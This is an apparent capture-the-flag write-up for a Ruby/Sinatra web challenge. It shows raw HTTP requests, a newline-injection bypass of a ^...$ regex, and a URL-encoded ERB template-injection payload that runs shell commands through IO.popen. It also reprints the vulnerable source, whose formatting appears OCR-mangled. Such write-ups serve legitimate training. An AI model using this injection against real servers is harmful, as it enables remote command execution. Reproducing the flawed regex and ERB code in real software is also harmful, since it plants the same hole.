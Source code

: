 # TFC CTF

## WEB

### DIAMONDS

**Difficulty:** Medium

**Statement:** Write something nice that passes our filter.

***

The website indicates that regexes are in place:

![image](https://user-images.githubusercontent.com/49941629/182034164-957af5a6-c7f2-459b-93e9-09658f21f78b.png)

After some tests on the website and via the name of the challenge, I know that the site is written in Ruby.

The web server sends back via the headers the following information: `WEBrick/1.6.1 (Ruby/2.7.5/2021-11-24)`

Following a long search, I found the following resources that will help me to exploit this flaw in order to bypass the regex.
- https://davidhamann.de/2022/05/14/bypassing-regular-expression-checks/
- http://homakov.blogspot.com/2012/05/saferweb-injects-in-various-ruby.html

A few tries after, I notice that the regex only let the characters `[a-zA-Z0-9]` through.

Thanks to the above resources, I will modify my HTTP POST request to inject a newline `%0A` in order to perform a command injection if the regex configuration is wrong.

Default POST request :

```
POST / HTTP/1.1
Host: 01.linux.challenges.ctf.thefewchosen.com:49396
Content-Length: 7
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://01.linux.challenges.ctf.thefewchosen.com:49396
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://01.linux.challenges.ctf.thefewchosen.com:49396/
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

input=x
```

Modified POST request :

```
POST / HTTP/1.1
Host: 01.linux.challenges.ctf.thefewchosen.com:49396
Content-Length: 7
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://01.linux.challenges.ctf.thefewchosen.com:49396
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://01.linux.challenges.ctf.thefewchosen.com:49396/
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

input=x%0A
{}
```

I see that the regex is well bypassed :

![image](https://user-images.githubusercontent.com/49941629/182034446-27ac66fc-0f2c-48e0-a000-4d0e76f5dd87.png)

Via the following payload, I can inject commands :

```
input=x%0A
%3C%25%3D%20IO.popen%28%27ls%20-ah%20.%20%2F%27%29.readlines%28%29%20%20%25%3E
```

![image](https://user-images.githubusercontent.com/49941629/182034644-96e00ca0-c14e-49b2-aba2-d4fc2f50f84a.png)

I just have to `cat` the flag with the payload :

![image](https://user-images.githubusercontent.com/49941629/182034715-e10c7fa5-7c1f-4056-95f4-7a0fe26cf143.png)

Flag: `TFCCTF{02718f35dddc266e0ac40c0c0dcc98c34edd545678dc752ba9831b6d73bc706f}`

By curiosity, I recovered the contents of the file `input.rb` to see the configured regex :

```ruby
require 'sinatra/base'

class Animated_template < Sinatra::Base
configure do
  set: views, app / views
set: public_dir, public
end

get '/'
do
  @input = "Write something nice here that passes our regex"
erb: 'index'
end

post '/'
do
  if params[: input] = ~/^[0-9a-z ]+$/i
@input = ERB.new(params[: input]).result(binding)
else
  @input = "That is far away from nice !!"
end
erb: 'index'
end

get '/style.css'
do
  erb: 'style'
end
end
```

